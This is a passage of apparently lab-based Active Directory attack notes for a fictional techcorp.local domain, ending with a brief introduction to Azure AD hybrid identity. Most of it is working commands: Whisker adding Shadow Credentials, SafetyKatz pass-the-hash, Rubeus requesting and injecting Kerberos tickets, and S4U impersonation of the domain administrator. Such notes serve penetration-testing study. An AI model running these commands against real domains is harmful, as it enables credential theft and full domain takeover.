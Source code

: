 
Request the TGT by leveraging the certificate:
```powershell
Rubeus.exe asktgt /user:supportXuser /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW.... /password:"1OT0qAom3..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show /nowrap
```

Inject the TGT in the current session or use the NTLM hash:
```powershell
Rubeus.exe ptt /ticket:doIGgDCCBnygAwIBBaEDAgEW...
```

## Abusing Computer Object

Enumerate the permissions:
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'mgmtadmin’}
```

Add the Shadow Credentials:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:mgmtadmin /domain:us.techcorp.local /aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f /run:cmd.exe" "exit"
Whisker.exe add /target:us-helpdesk$
```

Using PowerView, see if the Shadow Credential is added:
```powershell
Get-DomainComputer -Identity us-helpdesk
```

Request the TGT by leveraging the certificate:
```powershell
Rubeus.exe asktgt /user:us-helpdesk$ /certificate:MIIJ0AIBAzCCCYwGCSqGSIb... /password:"ViGFoZJa..." /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show
```

Request and Inject the TGS by impersonating the user:
```powershell
Rubeus.exe s4u /dc:us-dc.us.techcorp.local /ticket:doIGkDCCBoygAwIBBaEDAgEW... /impersonateuser:administrator /ptt /self /altservice:cifs/us-helpdesk
```



# Azure AD Integration

Azure AD is a popular method to extend identity management from on-premises AD to Microsoft's Azure offerings.

- Many enterprises use their on-prem AD identities to access Azure applications.

> A single user identity for authentication and authorization to all resources, regardless of location is hybrid identity.

An on-premises AD can be integrated with Azure AD using Azure AD Connect with the following methods:
```
- Password Hash Sync (PHS)
- Pass-Through Authentication (PTA)
- Federation
```
